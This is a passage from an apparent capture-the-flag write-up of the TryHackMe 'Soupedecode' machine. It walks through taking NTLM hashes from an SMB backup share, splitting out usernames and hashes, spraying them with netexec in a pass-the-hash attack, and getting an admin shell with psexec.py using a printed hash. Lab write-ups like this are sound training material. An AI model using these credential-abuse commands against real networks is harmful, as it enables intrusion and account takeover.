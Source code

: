 ```
┌──(ghost㉿kali)-[~/tryhackme/soupedecode]
└─$ smbclient '//10.201.28.223/backup' -U 'file_svc'
```

<figure><img src="../../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

Downloaded that file on my own kali machine and opening it revealed some NTLM hashes of accounts present on the target machine.

<figure><img src="../../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

Here, we can simply extract usernames from it in a different file, and hashes on another file.

* For extracting usernames:

```
┌──(ghost㉿kali)-[~/tryhackme/soupedecode]
└─$ cut -d ':' -f 1 backup_extract.txt > userlist
```

<figure><img src="../../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>

* For extracting hashes

```
┌──(ghost㉿kali)-[~/tryhackme/soupedecode]
└─$ cut -d ':' -f 4 backup_extract.txt > hashlist
```

<figure><img src="../../.gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>

Performed pass the hash attack via netexec and found a valid username and hash combination.

```
┌──(ghost㉿kali)-[~/tryhackme/soupedecode]
└─$ nxc smb 10.201.8.25 -u userlist -H hashlist --no-brute
```

<figure><img src="../../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

Next, I used psexec to gain shell on the target machine with the obtained credentials.

```
┌──(ghost㉿kali)-[~/tryhackme/soupedecode]
└─$ psexec.py 'FileServer$'@10.201.8.25 -hashes aad3b435b51404eeaad3b435b51404ee:e41da7e79a4c76dbd9cf79d1cb325559
```

<figure><img src="../../.gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>

As this account had enough privileges, I was able to access Administrator directory and there in the Desktop directory I got the root flag.

<figure><img src="../../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>

***

That's it for this machine.✅
